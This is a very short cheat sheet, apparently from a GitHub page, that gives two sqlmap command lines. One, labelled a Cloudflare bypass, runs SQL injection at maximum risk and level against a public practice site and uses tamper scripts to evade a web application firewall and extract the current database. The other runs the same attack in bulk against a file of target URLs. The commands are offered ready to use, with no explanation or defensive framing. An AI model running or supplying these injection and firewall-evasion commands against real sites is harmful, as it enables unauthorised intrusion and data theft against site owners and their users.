 <h1>SQLmap</h1>

### Cloudflare bypass tamper=space2comment,between,randomcase
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
### file based scan
```
sqlmap -m sqli_urls.txt --random-agent --batch --level=3 --risk=2 --current-db --tamper=space2comment,between,randomcase
```
